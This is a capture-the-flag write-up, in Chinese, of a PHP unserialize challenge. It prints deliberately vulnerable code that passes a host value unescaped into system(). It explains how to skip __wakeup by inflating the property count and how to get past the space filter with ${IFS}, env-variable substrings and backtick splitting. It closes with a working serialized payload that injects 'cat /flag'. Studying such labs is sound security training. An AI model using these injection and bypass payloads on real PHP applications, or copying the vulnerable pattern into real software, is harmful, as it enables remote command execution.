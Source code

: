 ## 文件源码
```php
<?php

class Home
{
    private $method;
    private $args;

    function __construct($method, $args)
    {
        $this->method = $method;
        $this->args = $args;
    }


    /**
     *  在注销时，调用ping函数，且ping的主机名为$this->args
     */
    function __destruct()
    {
        if (in_array($this->method, array("ping"))) { //如果$this->method=ping
            call_user_func_array(array($this, $this->method), $this->args); //args是$host名称
        }
    }

    function ping($host)
    {
        system("ping -c 2 $host");  // 这个地方可以绕过，例如$host = 127.0.0.1;cat /flag.txt
    }

    function waf($str)
    {
        $str = str_replace(" ", '', $str);
        return $str;
    }

    function __wakeup()
    {
        foreach ($this->args as $k => $v) {
            $this->args[$k] = $this->waf(trim(mysql_escape_string($v)));  // 反序列化时，先将空格全部删除掉。
        }
    }
}

$a = @$_POST['a'];
@unserialize($a);

```

**源码分析**
反序列化时候首先会执行`__wakeup()`魔术方法，然后再执行`__destruct()`方法。其中`__wakeup()`使用了waf函数，因此整个`__wakeup()`过滤了空格，回车，换行，tab等字符，`__destruct()`中使用了`call_user_func_array()`通过回调的方式执行ping函数，并要求args是一个数组。因此可以在args中传入`cat /flag`从而执行其他命令获取flag。


问题一：

由于本题使用了private变量，在测试的时候发现有不可视的字符所以直接用base64编码得到序列化的字符PAYLOAD，然后在python中使用base64解码后提交，就可以得到flag;

后面查阅资料，根据如下结论可以知道private变量名前面的home需要在前后加上NULL空字符, 因此只要在请求中使用%00代替NULL字符即可 。

解决方法：**\x00 + 类名 + \x00 + 变量名 反序列化出来的是private变量, \x00 + \* + \x00 + 变量名 反序列化出来的是protected变量, 而直接变量名反序列化出来的是public变量**



问题二：

__wakeup()中使用waf函数过滤了空格，导致无法直接执行cat /flag,这个问题首先想到的是绕过__wakeup()魔术方法，后面才考虑到之前小密圈中说的利用环境变量绕过一些关键字符的方法。



解决方法一：

当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行, 如，原本是O:6:”person”:1:，将1改为大于1的值即可，修改后O:6:”person”:2: ，这样就能绕过__wakeup()魔术方法，从而不需要考虑空格的问题。需要PHP before 5.6.25 and 7.x before 7.0.10。



解决方法二：

使用`${IFS}`代替空格即可。

源自P师傅小密圈中的一个问题的解答，当命令执行漏洞过滤了 空格 . / ; ` ’ > 等字符，怎么执行任意命令？

可以通过执行env命令获取可用的环境变量，如：得到MAIL=/var/mail/root，可以使用`${MAIL:0:1}`或`$(expr substr $MAIL 1 1)`代替/，另外可以使用`${IFS}`代替空格，使用“两个反引号将关键字分割，如 c“a“t${IFS}f“lag。



Payload：

Url: <http://xxx.xxx.xxx.xxx/common/home.php>

POST:

```
a=O:4:”home”:2:{s:12:”%00home%00method”;s:4:”ping”;s:10:”%00home%00args”;a:1:{s:4:”host”;s:24:”127.0.0.1;cat${IFS}/flag”;}}
```



